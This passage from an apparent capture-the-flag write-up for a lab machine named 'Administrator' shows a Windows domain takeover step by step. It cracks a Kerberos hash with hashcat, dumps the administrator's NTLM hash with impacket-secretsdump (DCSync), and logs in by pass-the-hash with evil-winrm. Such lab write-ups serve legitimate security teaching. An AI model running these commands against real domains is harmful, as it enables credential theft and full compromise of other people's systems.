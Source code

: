 If you get a clock skew error, you have to manually set your time to match the machine:
```
┌──(root㉿kali)-[~/…/Machines/Medium/Administrator/targetedKerberoast]
└─# timedatectl set-ntp off
┌──(root㉿kali)-[~/…/Machines/Medium/Administrator/targetedKerberoast]
└─# rdate -n administrator.htb
Sat Jan  4 18:25:08 EST 2025
```

After getting the hash, we can crack it using hashcat:
```
>hashcat -a 0 -m 13100 hashes\administrator.krb5.hash rockyou.txt
...
<hash>:limpbizkit
...
```
and of course confirm we successfully pwned the user!
![pwned ethan](/assets/image/2025-01-05/Pasted%20image%2020250104182816.png)

## Ethan -> Root
Alright, we're very close! A DCSync attack will net us the administrator NTLM hash which we can use to log in with WinRM!
To perform the attack we'll use `impacket-secretsdump` with the following command:
```
┌──(root㉿kali)-[~/…/Machines/Medium/Administrator/targetedKerberoast]
└─# impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'
...
Administrator:500:XXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXX:::
...
```
We successfully get the NTLM hash of the administrator and we can now log in to the machine.
```
┌──(root㉿kali)-[~/…/Machines/Medium/Administrator/targetedKerberoast]
└─# evil-winrm -i administrator.htb -u administrator -H 'XXXXXXXXXXXX'

...

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> dir


    Directory: C:\Users\Administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          1/4/2025   1:44 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
xxxxxxxxxxxxxxxxxxxxxxx
```
